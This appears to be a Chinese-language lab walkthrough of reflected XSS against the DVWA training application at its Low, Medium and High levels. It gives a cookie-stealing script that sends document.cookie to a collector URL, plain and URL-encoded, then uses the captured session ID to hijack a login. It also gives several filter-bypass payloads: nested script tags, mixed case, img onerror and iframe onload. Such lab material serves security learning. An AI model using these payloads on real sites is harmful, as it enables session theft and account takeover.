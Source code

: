 ```bash
http://10.240.138.212/DVWA-1.9/vulnerabilities/xss_r/?name=<script>document.location='http://127.0.0.1/cookie.php?cookie='+document.cookie;</script>
```

使用URLencode编码并发送攻击url

```bash
http://192.168.61.24/dvwa/vulnerabilities/xss_r/?name=%3cscript%3edocument.location%3d'http%3a%2f%2f192.168.61.27%2fcookie.php%3fcookie%3d'%2bdocument.cookie%3b%3c%2fscript%3e
```



获得cookie

http://127.0.0.1/cookie.txt

cookie.txt

```bash
security=low;
PHPSESSID=tkgm1hqifl8du9rdkdge7ba0c2
```



劫持会话。使用FireBug的修改cookie功能编辑cookie，访问dvwa的index.php，成功访问。





Medium等级

过滤了script标签，尝试通过`<scr<script>ipt>`绕过

```bash
http://10.240.138.212/DVWA-1.9/vulnerabilities/xss_r/?name=<scr<script>ipt>alert(/xss/)</script>#
```

大小写混合`<ScRiPt>`绕过

```bash
http://10.240.138.212/DVWA-1.9/vulnerabilities/xss_r/?name=<ScRiPt>alert(/xss/)</ScRiPt>#
```



High等级

Low方法、Medium方法失效

img标签`<img src=x onerror=alert(1)>`绕过

```bash
http://10.240.138.212/DVWA-1.9/vulnerabilities/xss_r/?name=<img src=x onerror=alert(1)>#
```

成功注入JavaScript



iframe标签`<iframe onload=alert(1)>`绕过

```bash
http://10.240.138.212/DVWA-1.9/vulnerabilities/xss_r/?name=<iframe onload=alert(1)>#
```
